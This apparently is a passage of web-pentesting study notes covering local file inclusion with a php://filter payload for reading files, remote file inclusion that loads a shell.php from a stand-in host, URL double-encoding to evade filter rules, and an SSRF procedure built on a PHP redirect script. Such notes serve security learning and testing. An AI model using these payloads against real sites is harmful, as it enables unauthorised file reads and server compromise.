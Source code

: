 ### Code execution via url and file render
If the url parameter allows for code to be executed, one might be able to get access to local resources.

```
php://filter/convert.base64-encode/resource=<FILE>
```

The code above will get a file in base64, one would need to decode it and will be able to read any file which they have permission to.


## RFI
This would happen when a web app allows users to include remote files in the URL.
### Example usage and occurrence
`http://site.com?file=http://127.0.0.1/file`    
A bad actor could exploit this and make the following URL:    
`http://site.com?file=http://127.0.0.1/shell.php`    
This would allow an attacker to get a malicious file on the webserver.
### Errors
If there are any error whilst trying the methods described above, one might try to url encode the whole url either once or numerous times.    
That is because some rules are configured so that they wouldn't look for url encoded strings.
#### Example
`../login.php` would become `..%252Flogin.php`

### Other help
[https://book.hacktricks.xyz/pentesting-web/file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)


# SSRF
Server Side Request Forgery     
This would occur on a web page that allows for redirects. One could change the header with a proxy to their own server and upload / use their malicious file(s) on the victim's machine.
## Procedure
1. Make a script to redirect somewhere of your choice

    ```php
    <?php
    header("Location: http://site.com")
    ?>
    ```
2. Start up a local server 
    ```bash
    php -S <ip>:<port>
    ``` 
3. Query the script file from the victim site

